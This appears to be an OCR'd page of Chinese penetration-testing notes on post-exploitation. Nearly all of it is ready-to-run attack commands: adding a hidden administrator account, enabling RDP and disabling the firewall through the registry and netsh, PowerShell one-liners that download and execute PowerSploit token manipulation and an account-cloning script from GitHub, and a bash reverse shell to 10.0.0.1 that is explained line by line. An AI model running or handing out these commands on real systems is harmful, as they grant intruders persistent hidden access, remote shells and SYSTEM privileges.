 >
> ### 在主机上添加账号
>
> > net user admin1 admin1 /add & net localgroup administrators admin1 /add
>
> 如不允许远程连接，修改注册表 
>
> > REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
> >
> > REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
>
> 如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:
>
> > netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
>
> 关闭防火墙
>
> > netsh firewall set opmode mode=disable
>
> 3389user 无法添加:
>
> > http://www.91ri.org/5866.html
>
> ****隐藏 win 账户****
>
> 开启 sys 权限 cmd:
>
> > IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'
>
> add user 并隐藏:
>
> > IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')
>
> win server 有密码强度要求，改为更复杂密码即可:
>
> 渗透技巧——Windows 系统的帐户隐藏
>
> > https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/
>
> windows 的 RDP 连接记录:
>
> > http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/
>
> ### linux bash
>
> > bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
>
> ``bash -i`` 交互的 shell 
>
> ``&`` 标准错误输出到标准输出
>
> ``/dev/tcp/10.0.0.1/8080`` 建立 socket ip port
>
> ``0>&1`` 标准输入到标准输出
>